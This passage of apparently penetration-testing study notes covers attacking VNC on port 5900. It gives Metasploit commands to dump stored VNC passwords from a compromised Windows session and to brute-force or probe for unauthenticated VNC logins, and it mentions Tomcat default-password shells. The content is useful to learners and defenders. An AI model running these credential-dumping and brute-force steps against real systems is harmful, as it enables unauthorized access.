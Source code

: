 [Back](#summary)

## Port 5900 - VNC
* VNC is used to get a screen for a remote host. But some of them have some exploits.
* You can use vncviewer to connect to a vnc-service. Vncviewer comes built-in in Kali.
* It defaults to port 5900. You do not have to set a username. VNC is run as a specific user, so when you use VNC it assumes that user. Also note that the password is not the user password on the machine. If you have dumped and cracked the user password on a machine does not mean you can use them to log in. To find the VNC password you can use the metasploit/meterpreter post exploit module that dumps VNC passwords
	
```commands
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

vncviewer 
```
vncviewer 192.168.1.109
```

### Ctrl-alt-del
* If you are unable to input ctr-alt-del (kali might interpret it as input for kali).
	* Try shift-ctr-alt-del
* Macbook: 
	* Click fn → f8 
	* Send ctrl-alt-del 

### Metasploit scanner
You can scan VNC for logins, with bruteforce.
Login scan
```aux
use auxiliary/scanner/vnc/vnc_login
set rhosts 192.168.1.109
run
```
Scan for no-auth
```aux2
use auxiliary/scanner/vnc/vnc_none_auth
set rhosts 192.168.1.109
run
```

[Back](#summary)

## Port 8080 - HTTP Alternate

### Tomcat
Tomcat suffers from default passwords. There is even a module in metasploit that enumerates common tomcat passwords. And another module for exploiting it and giving you a shell.
